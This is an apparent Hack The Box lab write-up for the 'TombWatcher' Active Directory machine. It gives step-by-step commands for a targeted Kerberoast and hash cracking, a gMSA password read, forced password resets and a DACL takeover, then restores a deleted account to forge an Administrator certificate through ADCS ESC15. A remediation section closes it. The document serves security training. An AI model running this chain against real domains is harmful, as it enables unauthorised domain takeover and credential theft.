





HTB CPTS Track: TombWatcher (medium)
Assumed-breach AD box: a BloodHound ACL chain (WriteSPN kerberoast, a gMSA read, ForceChangePassword, WriteOwner) walks henry to john, then john restores a tombstoned cert_admin and abuses ADCS ESC15 (EKUwu) to mint an Administrator certificate for Domain Admin.
contents
TombWatcher is an assumed-breach Active Directory box, and it's almost entirely an ACL story. You start as a low-priv user and chain outbound object-control edges in BloodHound, one abuse feeding the credentials for the next, until you land a shell as john. Root is the part that earns the box its name: john can resurrect tombstoned (deleted) AD objects, and bringing a cert_admin account back from the dead opens an ADCS ESC15 path straight to Domain Admin.
- WriteSPN over
alfred→ targeted Kerberoast → crack tobasketball. alfredcan AddSelf to a group with ReadGMSAPassword → read theANSIBLE_DEV$gMSA hash.ANSIBLE_DEV$has ForceChangePassword oversam;samhas WriteOwner overjohn→ reset both and WinRM in for user.johncan restore deleted objects → revivecert_admin, then ESC15 / EKUwu mints an Administrator cert for root.
Assumed-breach start, credentials provided:
henry / H3nry_987TGV!
Enumeration¶
Nmap¶
sudo nmap -sV -sC -p- 10.129.232.167 -T5
PORT STATE SERVICE VERSION
53/tcp open domain Simple DNS Plus
88/tcp open kerberos-sec Microsoft Windows Kerberos
389/tcp open ldap Microsoft Windows Active Directory LDAP (Domain: tombwatcher.htb)
445/tcp open microsoft-ds?
636/tcp open ssl/ldap Microsoft Windows Active Directory LDAP
5985/tcp open http Microsoft HTTPAPI httpd 2.0 # WinRM
9389/tcp open mc-nmf .NET Message Framing
Service Info: Host: DC01; OS: Windows
The standard domain-controller fingerprint: DC01 in tombwatcher.htb. Nmap reports a +4h clock skew, worth remembering, because Kerberos is time-sensitive and that skew will break ticket requests until I sync to the DC. Build a hosts file with nxc and add it:
nxc smb 10.129.232.167 --generate-hosts-file out.txt
# 10.129.232.167 DC01.tombwatcher.htb tombwatcher.htb DC01
The provided henry creds validate over LDAP/SMB/WMI (validated through nxc) but not WinRM, so henry isn't a remote user. This box is going to be about what henry can reach, not where he can log in.
BloodHound¶
Collect with nxc's BloodHound module:
nxc ldap DC01.tombwatcher.htb --dns-server 10.129.232.167 -u henry -p 'H3nry_987TGV!' --bloodhound --collection All
From here on, every move is "read the next outbound edge in BloodHound, abuse it, use the result to reach the next one."
The ACL Chain to john¶
henry → Alfred: WriteSPN + targeted Kerberoast¶
henry's one interesting outbound edge is WriteSPN over alfred:

BloodHound's own help spells out the abuse, a targeted Kerberoast:

Why this works: with write access to a user's
servicePrincipalName, you set an SPN on the account, then request a service ticket (TGS) for it. That ticket is encrypted with the target account's NT hash, so it cracks offline like any Kerberoast, no need for the account to be a real service.targetedKerberoastautomates the add-SPN / roast / remove-SPN cycle.
Sync the clock first (that +4h skew will otherwise kill the Kerberos exchange), then roast:
sudo ntpdate 10.129.232.167
python3 targetedKerberoast.py -v -d 'tombwatcher.htb' -u 'henry' -p 'H3nry_987TGV!'
[+] Printing hash for (Alfred)
$krb5tgs$23$*Alfred$TOMBWATCHER.HTB$tombwatcher.htb/Alfred*$f44bd07ae4c481...(trimmed)
Crack it (hashcat 13100, Kerberos TGS-REP):
hashcat -m 13100 Alfred_hash /usr/share/wordlists/seclists/Passwords/Leaked-Databases/rockyou.txt
$krb5tgs$23$*Alfred$TOMBWATCHER.HTB$...(trimmed):basketball
Alfred / basketball
Alfred → Infrastructure → ANSIBLE_DEV$: a gMSA read¶
As alfred, BloodHound shows he can AddSelf to the INFRASTRUCTURE group, which in turn holds ReadGMSAPassword over the ANSIBLE_DEV$ machine account:

Why this works: a group-Managed Service Account stores its password in the
msDS-ManagedPasswordattribute, readable only by the principals listed inPrincipalsAllowedToRetrieveManagedPassword. Here that's theINFRASTRUCTUREgroup, andalfredcan add himself to it. Once he's a member, he can read the managed-password blob and derive the account's NT hash.
The net one-liners BloodHound suggested didn't work for me, so I used bloodyAD throughout. Add alfred to the group, then read the gMSA password:
bloodyAD --host DC01.tombwatcher.htb -d TOMBWATCHER.HTB -u ALFRED -p 'basketball' add groupMember INFRASTRUCTURE ALFRED
# [+] ALFRED added to INFRASTRUCTURE
bloodyAD --host DC01.tombwatcher.htb -d tombwatcher.htb -u 'alfred' -p 'basketball' get object 'ANSIBLE_DEV$' --attr msDS-ManagedPassword
# msDS-ManagedPassword.NT: 8d5363f881f1bb3bff9b0d64b8b76d7a
ANSIBLE_DEV$ → sam → john: ForceChangePassword and WriteOwner¶
ANSIBLE_DEV$ has ForceChangePassword over sam, so pass-the-hash as the machine account and reset Sam's password:

bloodyAD --host DC01.tombwatcher.htb -d tombwatcher.htb -u 'ANSIBLE_DEV$' -p :8d5363f881f1bb3bff9b0d64b8b76d7a set password sam 'password'
# [+] Password changed successfully!
sam, in turn, has WriteOwner over john, and john is in Remote Management Users, so owning him gets me an interactive shell and the user flag:

Why this works:
WriteOwnerlets you set yourself as the object's owner; an owner can rewrite the DACL to grant itselfGenericAll; andGenericAllincludes the right to reset the password. It's the classic three-step DACL takeover, each step is a separate bloodyAD call.
bloodyAD --host 10.129.179.93 -d tombwatcher.htb -u sam -p password set owner john sam
bloodyAD --host 10.129.179.93 -d tombwatcher.htb -u sam -p password add genericAll john sam
bloodyAD --host 10.129.179.93 -d tombwatcher.htb -u sam -p password set password john password
Now WinRM in as john:
evil-winrm -i 10.129.179.93 -u john -p password
*Evil-WinRM* PS C:\Users\john\Desktop> cat user.txt
<FLAG>
user.txt captured. (The box picked up a new IP, 10.129.179.93, around this point; same host.)
Root: Tombstone Revival + ADCS ESC15¶
certipy find as john shows a CA (tombwatcher-CA-1) and, buried in the KerberosAuthentication template permissions, a lone SID with enrollment rights that doesn't resolve to any live object: S-1-5-21-...-1111. That dangling SID is the clue. Checking what john can write with bloodyAD explains it:
bloodyAD --host 10.129.179.93 -d dc01.tombwatcher.htb -u john -p password get writable
distinguishedName: OU=ADCS,DC=tombwatcher,DC=htb
permission: CREATE_CHILD; WRITE / OWNER: WRITE / DACL: WRITE
distinguishedName: CN=cert_admin\0ADEL:<guid>,CN=Deleted Objects,DC=tombwatcher,DC=htb
permission: CREATE_CHILD; WRITE / OWNER: WRITE / DACL: WRITE (x3)
john controls the OU=ADCS and three tombstoned cert_admin objects sitting in CN=Deleted Objects.
Why this works: when an AD object is deleted it isn't immediately gone, it becomes a tombstone in
CN=Deleted Objectsfor the tombstone lifetime, keeping enough attributes to be undeleted. If you hold write/restore rights over a deleted object (and a place to restore it to), you can resurrect it withRestore-ADObject/ bloodyADset restore. TombWatcher hides acert_adminaccount with ADCS enrollment rights in the graveyard; bring the right one back and you inherit its certificate privileges.
There are three cert_admin tombstones with different GUIDs/SIDs, and only the one whose SID is ...-1111 matches the enrollment right from the template. So it's a game of restore-one, check, delete, restore-the-next until the SID lines up:
# Command used to remove previous resurections:
bloodyAD --host 10.129.179.93 -d tombwatcher.htb -u john -p password remove object cert_admin
bloodyAD --host 10.129.179.93 -d tombwatcher.htb -u john -p password set restore 'CN=cert_admin\0ADEL:938182c3-bf0b-410a-9aaa-45c8e1a02ebf,CN=Deleted Objects,DC=tombwatcher,DC=htb'
# [+] ... restored successfully under CN=cert_admin,OU=ADCS,DC=tombwatcher,DC=htb
Because john owns the ADCS OU, the restored cert_admin lands under his control, so he can just set its password:
bloodyAD --host 10.129.179.93 -d tombwatcher.htb -u john -p password set password cert_admin password
ESC15 (EKUwu)¶
Now cert_admin can enroll, and the WebServer template is the way in.
Why this works (ESC15 / EKUwu, CVE-2024-49019): Schema V1 certificate templates that let the enrollee supply the subject (like the default
WebServer) don't pin the application policies. Certipy's-application-policiesinjects a Client Authentication policy into the request, turning a server-auth template into something usable for logon, and-upn/-sidset the certificate's SAN to the target. Socert_adminrequests a cert that authenticates as Administrator.
certipy req -u 'cert_admin@tombwatcher.htb' -p 'password' \
-dc-ip '10.129.179.93' -target 'DC01.TOMBWATCHER.HTB' \
-ca 'tombwatcher-CA-1' -template 'WebServer' \
-upn 'administrator@tombwatcher.htb' -sid 'S-1-5-21-1392491010-1358638721-2126982587-500' \
-application-policies 'Client Authentication'
That writes administrator.pfx. Authenticating it as a straight PKINIT TGT fails (Certificate is not valid for client authentication, the base template EKU is server auth), so I use the LDAP shell instead, which authenticates over Schannel. That first hits an OpenSSL CA_MD_TOO_WEAK wall (the CA's cert is signed with a weak MD), fixed with a throwaway OpenSSL config that drops the security level:
cat > /tmp/openssl_weak.cnf <<'EOF'
openssl_conf = openssl_init
[openssl_init]
ssl_conf = ssl_sect
[ssl_sect]
system_default = system_default_sect
[system_default_sect]
Options = UnsafeLegacyRenegotiation
CipherString = DEFAULT@SECLEVEL=0
EOF
OPENSSL_CONF=/tmp/openssl_weak.cnf certipy auth -pfx 'administrator.pfx' -dc-ip '10.129.179.93' -ldap-shell
[*] Authenticated to '10.129.179.93' as: 'u:TOMBWATCHER\Administrator'
# change_password Administrator <NewPass123!>
Password changed successfully!
From the LDAP shell I reset the real Administrator's password, then WinRM in for the root flag:
evil-winrm -i 10.129.179.93 -u Administrator -p '<NewPass123!>'
*Evil-WinRM* PS C:\Users\Administrator\Desktop> type root.txt
<FLAG>
root.txt captured. Box owned.
Remediation¶
- Audit outbound object control. Every hop here was a misplaced ACE (
WriteSPN,AddSelf,ForceChangePassword,WriteOwner). Review DACLs on users/groups and remove write rights that aren't operationally required. - Protect gMSA retrieval. Scope
PrincipalsAllowedToRetrieveManagedPasswordtightly, and don't let a low-priv userAddSelfinto a group that holds it. - Lock down deleted-object restore. Rights over
CN=Deleted ObjectsandOU=ADCSlet a normal user resurrect a privileged account. Restrict who can undelete objects, and don't leave privileged accounts tombstoned with their ACLs intact. - Fix the ADCS templates (ESC15). Remove "enrollee supplies subject" from server templates like
WebServer, enforce manager approval, and upgrade to Schema V2+ so application policies can't be injected. Patch CVE-2024-49019.
References: